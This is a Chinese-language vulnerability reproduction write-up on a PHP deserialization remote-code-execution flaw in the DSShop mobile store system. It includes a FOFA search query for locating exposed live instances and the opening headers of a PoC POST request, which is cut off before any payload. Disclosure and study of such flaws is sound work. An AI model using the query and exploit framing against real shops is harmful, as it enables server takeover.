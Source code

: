 
# DSShop移动商城网店系统 反序列化RCE漏洞复现

### 0x01 产品简介

   DSShop是长沙德尚网络科技有限公司推出的一款单店铺移动商城网店系统，能够帮助企业和个人快速构建手机移动商城,并减少二次开发带来的成本。  
以其丰富的营销功能，精细化的用户运营，解决电商引流、推广难题，帮助企业打造生态级B2C盈利模式商业平台。完备的电商功能，为企业提升了行业电商品牌的美誉度。系统安全、稳定、快速，便捷的功能扩展及可以进行二次开发的多用户商城源码，为企业电商业务长线快速发展提供了强有力的保障。 适用企业：各类百货MALL、行业实体市场、电商产业园、行业协会、行业门户网站等。

### 0x02 漏洞概述

  DSShop单店铺移动商城网店系统的getCartList方法的cart参数存在php反序列化漏洞，攻击者可以通过漏洞执行任意代码，获取服务器权限。

### 0x03 影响范围

DSShop <=V2

### 0x04 复现环境

FOFA：title="德尚商城 - 程序来源于德尚网络"

![](assets/1701746457-cc4dc949c9bc53ebb3db24b4ba1a3b46.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /index.php?s=home/article/index HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
C
```
